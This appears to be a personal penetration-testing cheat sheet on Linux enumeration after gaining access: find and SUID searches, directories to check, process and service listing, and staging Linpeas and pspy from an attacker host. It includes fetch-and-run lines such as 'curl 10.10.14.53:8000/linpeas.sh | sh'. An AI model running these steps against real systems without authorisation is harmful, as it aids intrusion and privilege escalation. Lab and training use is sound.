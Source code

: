 # Linux Enumeration

## Reading all Files

```bash
cat */*
```

## Find Command

[https://unix.stackexchange.com/questions/159244/find-files-belonging-to-a-group](https://unix.stackexchange.com/questions/159244/find-files-belonging-to-a-group)  
```bash
find / -group groupX
```
  
[https://unix.stackexchange.com/questions/22747/finding-files-by-their-owner-and-file-permissions](https://unix.stackexchange.com/questions/22747/finding-files-by-their-owner-and-file-permissions)  
```bash
find / -user user
```

Find config files and redirect errors:

```bash
find / -name '*.conf' 2>/dev/null
```

Find suid files:

```bash
find . -perm /4000
```

## Linpeas
Install Linpeas from [GitHub](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

Placing it in `~/Documents/enum` allows you to easily retrieve it with a simple python server. See [[Aliases#Useful Aliases]] for `enumserve` alias setup.

On attacker machine:

```bash
enumserve
```

Find your IP address ([[Linux Networking#Get your IP]])

On target machine:

```bash
wget [IP]:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

You can also send it directly to `sh`/`bash` if `wget` is not installed:

```bash
curl 10.10.14.53:8000/linpeas.sh | sh
```

Sometimes firewall rules may prevent you from accessing port 8000 - try running the server on port 80 if you aren't getting any results (requires root permissions):

```bash
sudo python3 -m http.server 80
```

## Standard Directories to Check
```
/home
/var/www
/var/backups
/var/logs
/opt
/usr/share
/usr/share/local
```

## List Processes & Services
List processes:

```bash
ps aux
```

Pspy monitoring:

```bash
wget [IP]:8000/pspy64
chmod +x pspy64
./pspy64
```

List services:

```bash
netstat
```

```bash
ss -lntp
```

```bash
systemctl list-units --type=service --state=running
```